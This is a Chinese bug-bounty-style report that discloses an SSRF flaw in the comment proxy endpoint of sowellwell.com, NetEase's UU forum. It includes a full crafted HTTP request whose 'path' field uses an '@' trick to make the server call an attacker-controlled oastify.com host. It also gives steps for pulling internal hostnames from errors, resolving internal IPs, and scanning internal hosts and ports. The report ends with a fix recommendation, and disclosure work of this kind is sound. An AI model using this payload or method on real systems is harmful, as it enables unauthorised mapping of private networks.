 ```yaml
---
layout: post
title:  "网易UU论坛深井Web版评论等功能存在SSRF漏洞"
date:   2023-09-20 10:26:18 +0800
categories: xss
---
```


## 漏洞名称

> 网易UU论坛深井Web版评论等功能存在SSRF漏洞

## 漏洞类型
> web漏洞，SSRF

## 危害等级
> 低危

## 漏洞URL
- POST https://sowellwell.com/w/v1/comment/proxy


## 关键数据包

    POST /w/v1/comment/proxy HTTP/2
    Host: sowellwell.com
    Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
    Content-Length: 351
    Identifier: jssdk_sD3SHpGpz24cW77h
    Accept: application/json, text/plain, */*
    Content-Type: application/json;charset=UTF-8
    Sec-Ch-Ua-Platform: "Windows"
    Origin: https://sowellwell.com
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
    Accept-Encoding: gzip, deflate

    {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}


## 漏洞描述
网易UU加速器论坛深井`https://sowellwell.com`的回复点赞等功能存在ssrf漏洞，攻击者能够通过该漏洞遍历内网机器和开放端口。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 登录Web版深井账号，并且点开任意帖子并且发表评论或者对某评论进行点赞操作，同时用burpsuite记录点赞时的请求为POST请求`https://sowellwell.com/w/v1/comment/proxy`
![like](./ssrf/like.png)

2. 观察到请求体中有一个`path`字段，指向某个相对路径，于是尝试用@符号进行绕过。如下：

        某域名+/like/apps/uu/server/create_like = 完整url
        某域名+@攻击者控制的域名+/like/apps/uu/server/create_like = 攻击者url，而原始的域名则解析为账号字段
3. 将`path`字段修改为burp collaborator进行测试
        
        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
        Content-Length: 351
        Identifier: jssdk_sD3SHpGpz24cW77h
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
        Accept-Encoding: gzip, deflate

        {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}

    collaborator接收到UU服务器发送的请求：
    ![collabo](./ssrf/collabo.png)

4. 获取内网域名

    将地址故意填错，可以观察到返回的错误字段包含内网域名信息，例如`path`字段填`abc`，服务器返回错误域名为：`in.mobile-community.uu.netease.comabc`，那么原始的域名为`in.mobile-community.uu.netease.com`

    ![domain](./ssrf/domain.png)

5. 获取域名IP地址
    
    通过dig命令可以查看该域名绑定的内网地址为`10.90.105.177`
    ![dig](./ssrf/dig.png)

6. 遍历内网IP

    获取启动的服务ip：
    ![valid](./ssrf/valid.png)

    未启动的服务ip：
    ![invalid](./ssrf/invalid.png)

7. 遍历内网开放端口

    以`10.90.105.241`为例，尝试遍历常见端口，发现端口8080开放
    ![ports](./ssrf/ports.png)

    
### 漏洞证明
请提供截图或视频

## 漏洞危害
1. 攻击者通过该漏洞遍历内网IP和端口开放信息，造成内网信息泄露
## 修复建议
1. 对潜在的请求`path`字段进行合法性校验

